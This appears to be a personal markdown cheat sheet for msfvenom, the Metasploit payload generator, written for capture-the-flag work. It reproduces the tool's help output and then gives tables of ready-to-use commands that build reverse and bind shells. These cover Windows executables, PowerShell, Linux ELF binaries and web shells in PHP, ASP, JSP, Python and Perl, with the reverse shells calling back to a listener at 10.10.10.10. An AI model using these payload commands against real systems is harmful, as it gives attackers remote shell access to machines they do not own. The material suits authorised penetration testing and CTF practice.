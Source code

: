 # msfvenom

- [Introduction](#introduction)
- [Usage](#usage)
- [Examples](#examples)

## Introduction

I use msfvenom in capture the flag events when I am trying to get access to a machine or when trying to escalate my privileges. What makes this tool so great is that I can craft a payload and output it in a wide array of formats. Some of those outputs include:

- php script
- python script
- Windows executable
- Windows service
- bash script

## Usage

```bash
$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>
Example: /opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

## Examples

Below are some different payload commands. I have grouped them with a heading to help explain what the payload is for.

### Windows Payloads

| Description | Command |
| --- | --- |
| Windows Reverse TCP Meterpreter | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe` |
| Windows Reverse HTTP Meterpreter | `msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=8080 -f exe > shell_http.exe` |
| Windows Reverse HTTPS Meterpreter | `msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe > shell_https.exe` |
| Windows Staged Reverse TCP | `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell_stage.exe` |
| Windows Reverse TCP PowerShell | `msfvenom -p windows/powershell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.ps1` |

### Linux Payloads

| Description | Command |
| --- | --- |
| Linux x86 Reverse TCP | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux x64 Reverse TCP | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux Bind TCP | `msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf > bind_shell.elf` |

### Web Payloads

| Description | Command |
| --- | --- |
| PHP Reverse TCP | `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.php` |
| ASP Reverse TCP | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f asp > shell.asp` |
| JSP Reverse TCP | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.jsp` |
| Python Reverse TCP | `msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.py` |
| Perl Reverse TCP | `msfvenom -p cmd/unix/reverse_perl LHOST=10.10.10.10 LPORT=4444 -f raw > shell.pl` |
